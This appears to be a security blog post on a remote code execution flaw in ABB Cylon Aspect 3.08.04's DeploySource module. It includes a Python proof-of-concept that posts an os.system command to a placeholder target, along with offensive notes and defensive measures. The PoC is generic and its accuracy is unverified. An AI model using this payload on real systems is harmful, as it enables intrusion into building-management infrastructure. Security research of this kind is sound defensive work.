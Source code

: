 ```yaml
---
title: "[remote] ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)"
date: 2025-06-10
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image: assets/images/post-cover/ABB-Cylon-Aspect-3.08.04-DeploySource.png
---
```


## Summary

ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Analysis

```markdown
# Vulnerability Analysis: ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Executive Summary

The ABB Cylon Aspect 3.08.04, a component of the Aspect Enterprise Building Management System, has been identified with a critical Remote Code Execution (RCE) vulnerability. This vulnerability resides in the DeploySource module, which is responsible for managing and deploying application updates and configurations. An unauthenticated remote attacker could exploit this flaw to execute arbitrary code on the target system, potentially leading to a full compromise of the affected server. Given the critical nature of this vulnerability, it is imperative for organizations utilizing this software to prioritize patching and implement additional security controls to mitigate the risk of exploitation.

## Proof of Concept (PoC)

Below is a Python-based proof of concept (PoC) script demonstrating the exploitation of this vulnerability. This script sends a crafted payload to the vulnerable DeploySource endpoint to achieve remote code execution.

```python
import requests

# Target URL
target_url = "http://<target-ip>:<port>/deploysource"

# Malicious payload
payload = {
    "command": "os.system('id')"
}

# Sending the payload
try:
    response = requests.post(target_url, json=payload)
    if response.status_code == 200:
        print("Exploit successful, response:")
        print(response.text)
    else:
        print(f"Exploit failed, status code: {response.status_code}")
except Exception as e:
    print(f"Error occurred: {e}")
```

Replace `<target-ip>` and `<port>` with the actual IP address and port of the vulnerable server.

## Offensive Security Insights

### Exploitation Techniques

1. **Payload Crafting**: The primary exploitation vector involves crafting a payload that leverages vulnerable API endpoints to execute arbitrary commands. This typically involves identifying input fields that are not properly sanitized or validated.

2. **Network Reconnaissance**: Prior to exploitation, performing network reconnaissance to identify live hosts and open ports is crucial. Tools like Nmap can be employed to scan for potential targets running the vulnerable version of ABB Cylon Aspect.

3. **Privilege Escalation**: Post-exploitation, attackers can attempt to escalate privileges by exploiting other local vulnerabilities or misconfigurations, thereby gaining higher-level access to the system.

4. **Persistence Mechanisms**: To maintain access, attackers might install backdoors or use scripts to re-establish control over the compromised system upon reboot.

## Defensive Measures

1. **Patch Management**: Ensure all instances of ABB Cylon Aspect 3.08.04 are updated to the latest version as soon as patches are released. Regularly monitor vendor advisories for updates.

2. **Network Segmentation**: Isolate critical systems, such as building management systems, from the rest of the network to limit lateral movement in case of a breach.

3. **Web Application Firewalls (WAFs)**: Deploy WAFs to detect and block malicious payloads targeting known vulnerabilities in web applications.

4. **Input Validation and Sanitization**: Implement strict input validation and sanitization routines to prevent injection attacks at the application level.

5. **Intrusion Detection and Prevention Systems (IDPS)**: Utilize IDPS to monitor network traffic for signs of malicious activity and respond to potential threats in real-time.

6. **Security Audits and Penetration Testing**: Conduct regular security audits and penetration testing to identify and remediate vulnerabilities before they can be exploited by adversaries.

By implementing these defensive strategies, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52317)

---

_This article was written by sleep33._
